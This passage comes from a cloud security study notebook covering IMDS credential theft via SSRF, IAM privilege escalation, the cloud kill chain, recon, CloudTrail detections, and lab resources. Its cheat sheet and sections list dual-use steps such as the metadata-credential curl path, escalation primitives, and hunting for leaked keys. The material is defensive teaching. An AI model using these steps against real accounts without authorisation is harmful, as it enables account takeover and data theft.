| Private | nothing | safe |
| Public LIST | enumerate object names | info leak (names/structure) |
| Public READ | download objects | data breach |
| Public WRITE | upload/overwrite objects | data breach + tampering (host malware, deface) |

**Public WRITE** is especially nasty — beyond reading data, an attacker can overwrite a JS file served from the bucket (watering-hole/defacement) or plant malware. The defense is account-level **Block Public Access** (Part 11), which overrides any bucket/object ACL and is the single setting that closes this entire class. Azure Blob (`?comp=list` on a container) and GCS (`storage.objects.list` for `allUsers`) have the same states and the same fix (disable anonymous/allUsers access).

---

## Part 7c: Cloud Networking and Encryption — The Supporting Cast

Two cross-cutting areas round out the attack surface: software-defined networking and encryption/key management.

**Software-defined networking.** In the cloud, the network is configuration, not cabling. The building blocks (AWS names; Azure/GCP analogous):

- **VPC / VNet:** an isolated virtual network you define, with subnets (public vs private).
- **Security Groups (stateful, instance-level)** and **Network ACLs (stateless, subnet-level):** the firewall rules. The classic finding is a security group allowing `0.0.0.0/0` to port 22/3389/database ports.
- **Internet/NAT Gateways, peering, PrivateLink/endpoints:** control what can reach the internet and how services talk privately.

```bash
# find security groups open to the world on sensitive ports
$ aws ec2 describe-security-groups \
  --filters Name=ip-permission.cidr,Values=0.0.0.0/0 \
  --query 'SecurityGroups[].{id:GroupId,perms:IpPermissions}' --output json
```

The security lesson: **network controls still matter, but they are secondary to identity.** A locked-down security group won't save you from an over-permissive IAM role, and a compromised control-plane credential bypasses network rules entirely (the attacker just calls the API). Use network segmentation as defense-in-depth — private subnets for databases, no public IPs on backends, VPC endpoints so traffic to S3/etc. never traverses the internet — but never as your *only* perimeter.

**Encryption and key management.** Providers make encryption-at-rest easy (often default), via a **Key Management Service** (AWS KMS, Azure Key Vault, GCP KMS). What matters for security:

- **Who controls the keys.** Provider-managed keys protect against physical theft but not against a compromised account (the account can decrypt). **Customer-managed keys (CMK)** with tight KMS *key policies* mean that even an attacker who copies an encrypted snapshot cannot read it without also compromising the key's policy — a real containment control.
- **KMS as an IAM boundary.** A well-scoped key policy can stop exfiltration: if the attacker's stolen role can read the encrypted object but not `kms:Decrypt` it, the data stays protected. This is why serious environments separate data-access permissions from key-use permissions.
- **Encryption in transit** (TLS everywhere) is largely provider-supported but must be enforced (e.g. S3 bucket policies requiring `aws:SecureTransport`).

| Control | Protects against | Doesn't protect against |
|---|---|---|
| Provider-managed encryption at rest | disk theft, media disposal | a compromised account (it can decrypt) |
| Customer-managed keys (CMK) + tight key policy | exfil of encrypted data by a role lacking `kms:Decrypt` | an attacker who also owns the key policy |
| TLS in transit | network sniffing, MITM | app-layer or credential compromise |

The takeaway mirrors the whole chapter: **encryption and networking are valuable defense-in-depth, but identity/IAM is the control that most determines blast radius.** A CMK with a good key policy is one of the few things that can turn a "they copied our database" into "they copied ciphertext they can't read."

---

## Part 8: The Cloud Kill Chain

Stitch the pieces into the end-to-end attack flow. Cloud intrusions follow a recognisable sequence, and mapping your findings onto it keeps an assessment organised.



Stage by stage:

1. **Recon:** enumerate the target's cloud footprint — S3 bucket names, exposed IPs, DNS records pointing at cloud services, and *leaked credentials* (GitHub, paste sites, public snapshots). Much of this is unauthenticated.
2. **Initial access:** a leaked access key, an SSRF pointed at IMDS, a vulnerable public-facing app, or a phished console/SSO login.
3. **Credential theft:** harvest more credentials — IMDS role creds, secrets from environment/user-data/secrets-managers, tokens on disk.
4. **Privilege escalation:** abuse IAM misconfig to become more powerful (Part 6).
5. **Lateral movement:** assume other roles, pivot across accounts via trust relationships, move from control plane to data plane and back.
6. **Persistence:** create new access keys/users, add backdoor trust policies, plant Lambda triggers, so access survives credential rotation.
7. **Impact:** exfiltrate data (copy snapshots to attacker accounts), deploy cryptominers, ransom, or destroy resources and backups.

This chain maps directly onto **MITRE ATT&CK for Cloud** (the IaaS/SaaS/Identity matrices), which is the shared vocabulary for describing these techniques (e.g. `T1552.005 Cloud Instance Metadata API`, `T1078.004 Valid Accounts: Cloud Accounts`, `T1098 Account Manipulation`). Using ATT&CK IDs in reports lets defenders map your findings to detections.

---

## Part 8b: Learning From Real Breaches

The concepts in this chapter are not academic — they are the anatomy of the biggest cloud breaches on record. Each maps cleanly onto the kill chain, which is why studying them cements the model.

- **Capital One (2019) — the textbook SSRF→IMDS breach.** A misconfigured WAF/proxy on an EC2-hosted app allowed **SSRF to `169.254.169.254`**, yielding the instance role's credentials. The role had broad S3 permissions, so the attacker listed and exfiltrated ~100M credit applications from S3. Every link in Part 5b's chain is here: data-plane SSRF → IMDS creds → over-permissive role → S3 exfil. **Fixes that would have stopped it:** IMDSv2, least-privilege on the instance role, and GuardDuty alerting on credential use from a foreign IP.

- **Public-bucket breaches (Accenture, Uber, countless others).** Data left in world-readable S3 buckets — backups, source code, PII — discovered by name-guessing or search indexes (Part 7b). No exploit required; pure misconfiguration on the customer side of the SRM. **Fix:** account-level Block Public Access.

- **Leaked-key breaches.** Access keys committed to public GitHub repos or baked into mobile apps and container images are scraped within *minutes* and used for cryptomining or data theft (secrets sprawl, Part 7). **Fix:** short-lived role credentials instead of static keys, secret scanning in CI, and automated key rotation/quarantine.

- **Over-permissive service accounts (SolarWinds-era supply-chain + cloud).** Once inside, attackers abused excessive cloud/identity permissions and **token/SAML manipulation** to move laterally and persist across a tenant. **Fix:** least privilege, conditional access, and monitoring identity-provider changes.



The recurring theme across all of them: **the provider's infrastructure held; the customer's identity, configuration, or secrets did not.** This is the shared-responsibility model written in incident reports — and the reason this notebook focuses relentlessly on the customer side.

---

## Part 8c: MITRE ATT&CK for Cloud in Depth

ATT&CK for Cloud is the shared language for describing cloud attacks; using its tactic/technique IDs in findings lets defenders map straight to detections. The tactics mirror the kill chain, with cloud-specific techniques under each:

| Tactic | Representative cloud techniques | ID |
|---|---|---|
| Initial Access | Valid Accounts: Cloud Accounts; Exploit Public-Facing App | T1078.004, T1190 |
| Execution | Cloud Administration Command; Serverless | T1651, T1648 |
| Persistence | Account Manipulation (add keys/roles); Additional Cloud Credentials | T1098, T1098.001 |
| Privilege Escalation | Valid Accounts; Domain/Tenant Policy Modification | T1078, T1484 |
| Defense Evasion | Impair Defenses: Disable Cloud Logs | T1562.008 |
| Credential Access | Cloud Instance Metadata API; Unsecured Credentials | T1552.005, T1552 |
| Discovery | Cloud Service Discovery; Cloud Infrastructure Discovery | T1526, T1580 |
| Lateral Movement | Use Alternate Auth Material; Internal Spearphishing | T1550 |
| Collection/Exfil | Data from Cloud Storage; Transfer to Cloud Account | T1530, T1537 |
| Impact | Resource Hijacking (cryptomining); Data Destruction | T1496, T1485 |

Three of these are worth memorising because they appear in nearly every cloud intrusion:

- **T1552.005 (Cloud Instance Metadata API):** the IMDS credential theft of Part 5 — the credential-access technique behind Capital One.
- **T1078.004 (Valid Accounts: Cloud Accounts):** using legitimate stolen credentials — why so much cloud attack "looks like normal API traffic" and evades signature detection.
- **T1562.008 (Disable/Impair Cloud Logging):** the attacker's early move to blind defenders — and, inverted, one of the highest-fidelity *detections* a defender has (alert on `StopLogging`/`DeleteTrail`).

Mapping an assessment's findings to these IDs does two things: it communicates precisely to a blue team, and it reveals *coverage gaps* — a technique you executed that generated no alert is a detection the defenders must build.

---

## Part 9: Frameworks, Benchmarks, and Compliance

Cloud security is heavily framework-driven; know the landmarks because assessments and hardening both reference them.

| Framework | What it is | Use |
|---|---|---|
| **MITRE ATT&CK for Cloud** | adversary technique matrix (IaaS/SaaS/Identity) | describe attacks, map to detections |
| **CIS Benchmarks** (AWS/Azure/GCP) | prescriptive hardening checklists | baseline config audits; tools score against them |
| **CSA Cloud Controls Matrix (CCM)** | control framework across domains | governance/compliance mapping |
| **NIST 800-53 / 800-204** | control catalog / microservices guidance | US gov & enterprise compliance |
| **Provider Well-Architected (Security Pillar)** | AWS/Azure/GCP best-practice guidance | design-time security |
| **PCI-DSS / HIPAA / SOC 2 / ISO 27001** | regulatory/industry compliance | what the customer must prove |

The most operationally useful for hands-on work are **ATT&CK** (offense/detection vocabulary) and the **CIS Benchmarks** (concrete "this setting should be X" checks that scanning tools like Prowler and ScoutSuite automate — the AWS chapter's tooling). Compliance frameworks matter because they often *mandate* the very controls (logging, encryption, least privilege) whose absence you'll be reporting.

---

## Part 10: The Tooling Landscape

An orientation to the tools the later chapters teach from scratch; here, just the map so you know what exists and what it's for.

| Category | Tools | Purpose |
|---|---|---|
| Cloud CLI/SDK | `aws`, `az`, `gcloud` | the primary interface for recon and actions |
| Config auditing (CSPM) | **Prowler**, **ScoutSuite**, Steampipe, `cloudsploit` | scan an account against CIS/best-practice, find misconfig |
| IAM analysis | **PMapper**, **Cloudsplaining**, IAM Access Analyzer, `enumerate-iam` | map privesc paths, find over-permissive policies |
| Exploitation framework | **Pacu** (AWS) | modular post-exploitation (privesc, persistence, exfil) |
| Attack-path graphing | **CloudFox**, BloodHound (AzureHound/AWS), Cartography | visualise identities/resources and attack paths |
| Secrets scanning | **TruffleHog**, **gitleaks**, `detect-secrets` | find leaked keys in code/repos/images |
| Bucket enumeration | `s3scanner`, `cloud_enum`, GrayhatWarfare | find public/enumerable storage |
| Threat detection (defense) | GuardDuty, Azure Defender, GCP SCC, `falco` | detect malicious activity |
| Purpose-built labs | **CloudGoat**, **flAWS/flAWS2**, **AzureGoat**, **sadcloud** | intentionally vulnerable environments to practise on |

The workflow the tools support mirrors the kill chain: **enumerate** (cloud_enum, gcloud/aws), **audit** (Prowler/ScoutSuite), **map privesc** (PMapper/Cloudsplaining), **exploit** (Pacu), **graph** (CloudFox). The cloud-tooling chapter (Chapter 3 of this notebook) teaches Pacu, ScoutSuite, and Prowler from zero.

---

## Part 10b: Unauthenticated Cloud Recon

A surprising amount of cloud reconnaissance needs *no* credentials — it's how attackers pick a target and how you scope an assessment. The techniques, roughly in order:

- **Identify the provider and footprint.** Resolve the target's DNS and inspect where it points: `*.s3.amazonaws.com`/`*.cloudfront.net` (AWS), `*.blob.core.windows.net`/`*.azurewebsites.net` (Azure), `*.storage.googleapis.com`/`*.appspot.com` (GCP). ASN/IP-range lookups (`amass`, `nslookup`, `whois`) reveal cloud hosting.

```bash
$ dig +short assets.acme.com
d1234.cloudfront.net.                 # AWS CloudFront -> likely S3 behind it
$ nslookup acme.com | grep -i amazon  # cloud provider fingerprint
```

- **Enumerate storage** (Part 7b) — name-guess buckets/blobs/GCS across all three providers.
- **Find the account ID / tenant.** An S3 bucket's ARN, a public snapshot, or an error message can leak the 12-digit AWS account ID; Azure tenant IDs are discoverable via `login.microsoftonline.com/<domain>/.well-known/openid-configuration`. Account/tenant IDs seed further enumeration.
- **Hunt leaked credentials.** Search GitHub, GitLab, paste sites, and public container images for `AKIA`/`ASIA` keys, `az` service-principal secrets, and GCP service-account JSON. This is the top real-world initial-access vector.

```bash
$ trufflehog github --repo https://github.com/acme/webapp   # scan a repo for secrets
$ gitleaks detect --source . --report-format json           # local repo / CI
# GitHub code search: "AKIA" org:acme  (finds committed AWS keys)
```

- **Enumerate IAM existence without access.** AWS lets you probe whether IAM users/roles exist in *another* account by attempting to add them to a role trust policy or via `--principal` errors — subtle but real reconnaissance that leaks valid principal names for later phishing/assume-role attempts.



The point: **before a single credential is used, an attacker can often map your cloud footprint, find exposed data, and harvest leaked keys — all from the outside.** Defensively, this means minimising your external cloud fingerprint, scanning your *own* repos/images for secrets before attackers do, and treating any leaked key as a live incident (rotate immediately, review CloudTrail for use).

---

## Part 11: Detection & Defense Angle

Because cloud is customer-responsibility-heavy, the defensive playbook is concrete and high-leverage. The controls that prevent the most damage:

- **Enforce least privilege on IAM.** The number-one control. Grant minimal actions/resources, use permission boundaries and SCPs as guardrails, prefer roles over long-lived users, and *review* with access analyzers. Every over-permission removed is a privesc edge deleted. **Blue-team usage:** run `Cloudsplaining`/IAM Access Analyzer regularly and treat `iam:PassRole`, `*:*`, and wildcard-resource grants as findings.
- **Enforce IMDSv2 with hop-limit 1.** Neutralises the SSRF→metadata→credentials chain (Part 5) — one setting that kills the most common credential-theft path.
- **Turn on and centralise logging.** CloudTrail (all regions, org trail, log-file validation), Azure Activity/Diagnostic Logs, GCP Audit Logs — shipped to a *separate*, tightly-controlled account/project so an attacker who compromises the workload can't erase the evidence. **IR use case:** an attacker's very first moves (StopLogging, DeleteTrail, PutBucketPublicAccessBlock off) are high-fidelity CloudTrail alerts.
- **Deploy managed threat detection.** GuardDuty / Microsoft Defender for Cloud / GCP Security Command Center detect IMDS credential exfil (creds used from a *different* IP than the instance), impossible-travel logins, cryptomining, and reconnaissance — low-effort, high-signal.
- **Block public data by default.** S3 Block Public Access at the account level, private-by-default buckets/blobs, deny public snapshots via SCP, and encrypt with customer-managed keys (KMS) so exfiltrated data is useless without key access.
- **Scan for secrets and misconfig continuously.** gitleaks/TruffleHog in CI to stop key leaks; Prowler/ScoutSuite scheduled against every account to catch drift from the CIS baseline.
- **Guardrails as code.** SCPs/Azure Policy/Org Policy that *prevent* dangerous states (no public buckets, no IMDSv1, no root-account keys, required regions) — prevention beats detection.

A few high-value CloudTrail detections that catch the attacks in this chapter, expressed as the events to alert on:

```text
# credential exfil / IMDS abuse: instance-role creds used from a non-instance IP
eventName = *          AND userIdentity.type = AssumedRole
                       AND sourceIPAddress NOT IN (known instance/NAT IPs)
# defense evasion: attacker disabling the logs (T1562.008)
eventName IN (StopLogging, DeleteTrail, UpdateTrail, PutEventSelectors)
# persistence: minting new access / identities (T1098)
eventName IN (CreateAccessKey, CreateUser, CreateLoginProfile, AttachUserPolicy)
# data exposure: making storage public
eventName IN (PutBucketAcl, PutBucketPolicy, DeletePublicAccessBlock)
# privesc attempts
eventName IN (CreatePolicyVersion, PutUserPolicy, PassRole+RunInstances)
```

GuardDuty encodes many of these as managed findings (e.g. `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration`, `Stealth:IAMUser/CloudTrailLoggingDisabled`), which is why enabling it is such high-leverage, low-effort defense.

The detection mindset that ties it together: **in the cloud, everything is an API call, and API calls are logged.** That is the defender's great advantage over on-prem — with CloudTrail/Activity Logs centralised and monitored, the attacker's every control-plane action leaves a record. The corresponding attacker priority (disable/evade logging early) is exactly why protecting and alerting on the logging configuration is a top control. **Red-team usage:** note in reports whether logging was enabled and whether your actions *would* have been caught — the value of an assessment is as much "were we detected?" as "did we get in?".

---

## Part 12: Rules of Engagement — Legal & Scope

Cloud pentesting is bound more tightly than on-prem, because the infrastructure belongs to a third party (the provider) and often hosts other tenants. Non-negotiables before any hands-on work:

- **Customer authorisation.** You may only test resources the account owner has explicitly authorised in writing, within a defined scope and window.
- **Provider policy.** Each provider publishes what's allowed without prior approval. AWS permits customer-initiated pentesting of most services without pre-approval but **prohibits** certain activities (DoS/DDoS, testing other tenants, disrupting shared infrastructure). Azure and GCP have equivalent penetration-testing rules of engagement. Read and follow them.
- **Stay on the customer side of the SRM.** Assess IAM, config, data exposure, and the customer's apps — *not* the provider's hypervisor/infrastructure. Attempting to break tenant isolation or the control plane's underlying infrastructure is both out of scope and likely illegal.
- **Blast-radius care.** Cloud actions are powerful and often irreversible (deleting resources, modifying policies). Use dedicated test accounts, avoid destructive actions on production, and prefer read-only enumeration first.

The governing principle mirrors every offensive chapter in this series: **explicit authorisation, defined scope, and minimal impact.** In the cloud the stakes are higher because a single API call can affect an entire organisation — so the discipline must be tighter.

---

## Part 13: Common Pitfalls (Conceptual)

- **Assuming "managed" means "secure".** PaaS/SaaS still leave data, identity, and configuration to you. A managed database with a public endpoint and weak IAM is wide open.
- **Treating the network as the perimeter.** Locking down security groups while leaving IAM over-permissive misses the real perimeter. Identity first.
- **Ignoring IMDS.** Every SSRF in a cloud-hosted app is a potential credential theft; teams that don't enforce IMDSv2 leave the crown-jewel chain open.
- **Forgetting the control plane.** Defenders who monitor OS/host logs but not CloudTrail miss the most damaging (control-plane) attacks entirely.
- **Long-lived access keys.** Static keys leak and don't rotate; prefer short-lived role credentials and SSO.
- **Over-scoping trust policies.** An `sts:AssumeRole` trust that's too broad (or `Principal: *`) is a lateral-movement highway.
- **No logging isolation.** If the logs live in the same account the attacker compromises, they'll be deleted. Centralise to a separate, locked-down account.
- **Confusing where the SRM line sits.** The line moves per service; assuming EC2-style responsibility for a fully-managed service (or vice versa) creates gaps.
- **Relying on provider-managed encryption for containment.** It stops disk theft, not a compromised account — the account can decrypt. Use customer-managed keys with tight policies for real blast-radius reduction.
- **Reading policies statement-by-statement, not in combination.** `PassRole` + `CreateFunction` are individually reasonable but together are admin. Analyse effective permissions, not isolated grants.
- **Testing without provider/customer authorisation.** Cloud pentesting has strict rules; unapproved testing can violate the provider's terms and the law even in an account you don't own.
- **Trusting network segmentation alone.** A compromised control-plane credential bypasses every security group; identity must be locked down too.
- **Leaving `metadata`/SSRF unmitigated because "it's internal".** `169.254.169.254` is reachable from any SSRF in the app — internal-only is not a defense.

### A note for defenders and assessors (woven)

Whichever side you're on, the same map serves both. **Blue-team usage:** walk the attack-surface mindmap (Part 7) against your own account and confirm each node is closed — IMDSv2 enforced, no public buckets, least-privilege IAM, logging centralised. **Red-team usage:** the same map is your checklist for what to enumerate. **Bug-bounty relevance:** many programs now include cloud assets in scope — an SSRF that reaches IMDS, a public bucket with PII, or an IAM privesc are high-severity, well-paid findings *if* the asset is in scope and the provider's rules permit the test. The discipline (authorisation, scope, minimal impact) is what separates a paid report from a legal problem.

---

## Part 14: Final Revision / Summary

- The cloud is **API-driven and identity-centric**: a stolen credential grants programmatic, whole-account control. **Identity is the perimeter.**
- **Service models** (IaaS/PaaS/SaaS) move the security boundary; you trade control for smaller attack surface but **always** own data, identity, and configuration.
- The **Shared Responsibility Model** splits "security *of* the cloud" (provider) from "security *in* the cloud" (customer). Nearly every breach is on the customer side — misconfig and credential compromise, not hypervisor exploits.
- **Control plane** (manage resources, IAM-authenticated, logged) vs **data plane** (the resource doing its job). The signature attack: data-plane foothold → steal credential → operate on the control plane.
- **IMDS at `169.254.169.254`** returns the instance role's temporary credentials — the crown-jewel target, reachable via **SSRF**. **Enforce IMDSv2 + hop-limit 1.**
- **IAM is the new perimeter**, and **privilege escalation** is legitimate-but-dangerous API abuse (`AttachUserPolicy`, `PassRole`, `UpdateFunctionCode`, assume-role chains) — a graph problem from foothold to admin.
- **Attack surface:** public buckets, `0.0.0.0/0` firewall rules, secrets sprawl, public snapshots, serverless/container/k8s misconfig, logging gaps.
- **Kill chain:** recon → initial access → credential theft → privesc → lateral movement → persistence → impact, mapped to **MITRE ATT&CK for Cloud**.
- **Defense:** least-privilege IAM, IMDSv2, centralised & isolated logging, managed threat detection, block-public-by-default, continuous secrets/misconfig scanning, guardrails as code. In the cloud, **everything is a logged API call** — the defender's edge.
- **Rules of engagement:** customer authorisation + provider policy + stay on the customer side of the SRM + minimise blast radius.
- **Providers differ only in vocabulary:** account/subscription/project, IAM/Entra+RBAC/Cloud IAM, CloudTrail/Activity/Audit — learn the concept, map the noun. Azure uniquely splits identity (Entra ID authn) from authorization (RBAC).
- **Credentials:** prefer short-lived (STS `ASIA`) and workload identity over long-lived static keys (`AKIA`) — leaked static keys are the top initial-access vector because they never expire.
- **Networking & encryption are defense-in-depth, not the perimeter:** a control-plane credential bypasses security groups; provider-managed encryption doesn't stop a compromised account (use customer-managed keys with tight policies for real containment).
- **Real breaches (Capital One, public buckets, leaked keys) all failed on the *customer* side** — misconfig, over-permission, secrets sprawl — never the provider's hypervisor.

Memory hook: **"Identity is the perimeter; the metadata service is the crown jewel; and in the cloud, every action is a logged API call."**

Second hook for the whole notebook's approach: **secure *in* the cloud, not *of* it — your job is data, identity, and configuration, and that's where every breach lives.**

---

## Part 15: Cheat Sheet / Quick Reference

```text
SHARED RESPONSIBILITY
  Provider = security OF the cloud (hardware, hypervisor, network, managed svc)
  Customer = security IN the cloud (data, IAM, OS[IaaS], app, config)
  Line MOVES per service (EC2 vs RDS vs DynamoDB)

SERVICE MODELS (your surface shrinks -> but data+IAM+config always yours)
  IaaS: OS+app+data+IAM   PaaS: app+data+IAM   SaaS: data+identity+sharing

CONTROL vs DATA PLANE
  control = create/config/delete (IAM auth, logged)   data = resource serving
  attack: data foothold -> steal cred -> control plane

IMDS (169.254.169.254) — CROWN JEWEL
  v1: curl .../latest/meta-data/iam/security-credentials/<role>  -> temp creds
  SSRF -> IMDS -> creds -> export AWS_* -> aws sts get-caller-identity
  DEFENSE: enforce IMDSv2 (PUT token) + hop-limit 1

IAM PRIVESC PRIMITIVES (AWS)
  iam:AttachUserPolicy -> attach AdministratorAccess
  iam:PassRole + ec2:RunInstances / lambda:CreateFunction -> run as powerful role
  lambda:UpdateFunctionCode -> run code as function role
  sts:AssumeRole (loose trust) -> hop to stronger role

KILL CHAIN
  recon -> initial access -> cred theft -> privesc -> lateral -> persist -> impact
  map to MITRE ATT&CK Cloud (T1552.005 IMDS, T1078.004 valid cloud accts)

TOOLS (later chapters)
  audit: Prowler, ScoutSuite   iam: PMapper, Cloudsplaining
  exploit: Pacu   graph: CloudFox   secrets: TruffleHog/gitleaks
  labs: CloudGoat, flAWS, AzureGoat

TOP DEFENSES
  least-priv IAM ; IMDSv2 ; centralise+isolate logging ; GuardDuty/Defender/SCC
  block public buckets/snapshots ; secrets scanning in CI ; SCP/Policy guardrails

PROVIDER MAP (learn concepts once)
  account:  AWS account / Azure subscription / GCP project
  identity: IAM / Entra ID+RBAC / Cloud IAM
  temp cred: STS AssumeRole / Managed Identity / SA impersonation
  logs:     CloudTrail / Activity Logs / Cloud Audit Logs
  detect:   GuardDuty / Defender for Cloud / Security Command Center

UNAUTH RECON
  dig/nslookup -> which provider ; cloud_enum -k <name> ; trufflehog/gitleaks
  bucket states: private / list / read / write (write = worst)

IAM POLICY RED FLAGS
  Action "*"/svc:* ; Resource "*" on write/iam ; iam:PassRole ; iam:Attach*/Put*Policy
  sts:AssumeRole+broad trust ; secretsmanager:GetSecretValue ; no Condition
  check safely: aws iam simulate-principal-policy ...

CREDENTIALS
  AKIA (static, forever) = avoid ; ASIA (temp, hours) = prefer ; workload identity = best
```

---

## Part 16: Practice Labs & Resources

- **flAWS.cloud and flAWS2.cloud (Scott Piper):** the classic browser-based AWS security walkthroughs — teach IMDS credential theft, S3 misconfig, and IAM privesc with zero setup. Do both first; they make this chapter's concepts tangible.
- **CloudGoat (Rhino Security Labs):** deploy intentionally-vulnerable AWS scenarios (`iam_privesc_by_rollback`, `ec2_ssrf`, `cloud_breach_s3`) and attack them — the hands-on companion to the AWS chapter.
- **AzureGoat / GCPGoat / sadcloud:** equivalent vulnerable environments for Azure and GCP, and a Terraform "sadcloud" of misconfigurations to scan with ScoutSuite/Prowler.
- **AWS/Azure/GCP Shared Responsibility Model pages + Well-Architected Security Pillar:** read the provider's own SRM diagrams and security guidance — the authoritative source for where the line sits per service.
- **MITRE ATT&CK for Cloud (IaaS/SaaS/Identity matrices):** browse the techniques referenced in Part 8; map each to a detection.
- **CIS Benchmarks (AWS/Azure/GCP Foundations):** skim the Foundations benchmark to see the concrete settings CSPM tools check — this is what "good config" looks like.
- **PentesterLab / TryHackMe / HackTheBox cloud tracks and "PEACH"/"Hacking the Cloud" (hackingthe.cloud):** curated technique references and rooms for IMDS, IAM privesc, and bucket enumeration.
- **Rhino Security Labs blog + Pacu docs:** deep, practical write-ups of AWS privesc primitives (the Part 6 table originates from their research) — read before the exploitation-tooling chapter.
- **"Breaking the Cloud Kill Chain" and cloud incident post-mortems (Capital One, others):** read the actual incident analyses to see the concepts in Parts 5, 6, and 8b in real operational detail.
- **Provider free tiers + a personal test account:** the best lab is your own. Spin up a free-tier account, deploy an EC2 with a role, and walk the Part 5b chain against *yourself* (authorised by definition) — nothing teaches IMDS like reading your own instance's credentials.

A note on doing this safely: use a **dedicated, isolated account** with billing alerts, never test resources you don't own, and read the provider's penetration-testing policy first (Part 12). The vulnerable-by-design labs (flAWS, CloudGoat) exist precisely so you can practise the offensive techniques without touching anyone else's environment or risking a surprise bill.

Practice question set:

1. A company runs its app on EC2 (IaaS) and uses RDS (managed database). For each, state who is responsible for OS patching, database-engine patching, IAM configuration, and data encryption — and explain why the line differs.
2. An attacker finds an SSRF in a public web app hosted on an EC2 instance. Walk through, step by step, how this becomes full control-plane access, and name the one instance setting that would have stopped it.
3. Explain why "identity is the perimeter" and give two IAM privilege-escalation primitives that require no software exploit, only over-permissive policy.
4. Distinguish the control plane from the data plane with a concrete example of an action on each, and explain why control-plane compromise is usually more severe.
5. You're asked to threat-model a new SaaS deployment. Using the Shared Responsibility Model, list the three areas that remain your responsibility and a specific risk in each.
6. Translate the following AWS concepts to Azure and GCP: account, IAM role, `PassRole`, CloudTrail, SCP. Why does Azure have a two-layer identity model that AWS lacks?
7. Given an S3 bucket that is anonymously *writable*, describe two distinct attacks beyond simply reading data, and the one account setting that closes the whole class.
8. Map the Capital One breach onto the cloud kill chain stage by stage, and name one control per stage that would have broken the chain.
9. Why is a leaked long-lived `AKIA` access key more dangerous than leaked temporary `ASIA` credentials, and what does this imply for how you should issue credentials to workloads?
10. List three CloudTrail events you would alert on to catch, respectively, an attacker disabling logging, establishing persistence, and exposing data — and give the ATT&CK technique each corresponds to.

**Memory hooks (mnemonics):**

- **"Of vs In: the provider secures *of* the cloud, you secure *in* the cloud."** — the SRM in five words.
- **"One-six-nine dot two-five-four is where the keys live."** — IMDS `169.254.169.254`.
- **"Identity is the perimeter; policy is the firewall."** — the IAM-centric mindset.
- **"Same concepts, different nouns."** — porting across AWS/Azure/GCP.
- **"Every action is a logged API call."** — the defender's structural advantage.

### CTF / hands-on relevance (woven)

Cloud security "CTFs" are the vulnerable-lab kind — **flAWS/flAWS2**, **CloudGoat**, **AzureGoat** — where each level is a real misconfiguration (public bucket, IMDS creds, IAM privesc) you exploit with the CLI. They map one-to-one onto this chapter: flAWS level 1 is a public bucket (Part 7b), a later level is IMDS credential theft (Part 5), and CloudGoat's `iam_privesc_by_*` scenarios are Part 6. Starting them now — even before the AWS chapter — will make every concept concrete, because in cloud there's no better teacher than assuming a stolen role and running `aws sts get-caller-identity` for the first time.

Having the map is the prerequisite for the terrain. With the shared-responsibility model, the control/data-plane split, IMDS, IAM, and the kill chain in hand, the hands-on chapters can move fast — every technique they teach is an instance of a concept established here.

The next chapter goes hands-on with the most-used cloud provider: **AWS security and recon** — enumerating IAM, S3, and EC2; the IMDS/SSRF credential-theft chain in practice; and the CLI/enumeration workflow that turns the concepts here into concrete findings.
